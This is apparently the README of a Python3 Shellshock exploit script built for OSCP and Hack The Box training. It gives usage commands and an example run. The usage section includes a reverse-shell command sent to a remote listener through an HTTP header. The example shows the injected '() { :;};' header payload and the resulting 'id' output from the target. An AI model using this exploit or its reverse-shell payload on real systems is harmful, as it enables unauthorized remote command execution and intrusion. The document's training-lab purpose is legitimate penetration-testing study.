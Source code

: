 # shellshock
Python3 Shellshock exploit script made for OSCP and HTB. Created this because I could not figure out how to make the nmap HTTP-shellshock.nse script do what I wanted.

## Usage
1. Run the script with python3
  - python3 shellshock.py -h
  - python3 shellshock.py target -p port -u 'uri'
  - python3 shellshock.py 127.0.0.1 -p 8081 -u '/cgi-bin/something' -c 'bash -c "id"' --verbose -H 'Referer'
  - python3 shellshock.py 1.1.1.1 -p 10000 -u '/' --command 'bash -i >& /dev/tcp/10.10.10.1/1234 0>&1' --header 'User-Agent' --proto https
2. Works best when sending request through Burp. Set up a proxy listener and forward the script requests to the host. Intercept request and modify as necessary. 

## Example
```sh
python3 shellshock.py 127.0.0.1 -p 8081 -u '/cgi-bin/user.sh' -c '/bin/bash -c "id"' -v

Target set to = 127.0.0.1
 Port set to = 8081
 URI set to = /cgi-bin/user.sh
 Command set to = /bin/bash -c "id"
 Header set to = ['User-Agent', 'Cookie', 'Referer']
 Protocol set to = http

Sending request with details:
    URI = http://127.0.0.1:8081/cgi-bin/user.sh
    Header for this request= {'User-Agent': '() { :;}; echo; /bin/bash -c "id"'}
    verify=False
Request sent. 
Done.
Status code returned = 200
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
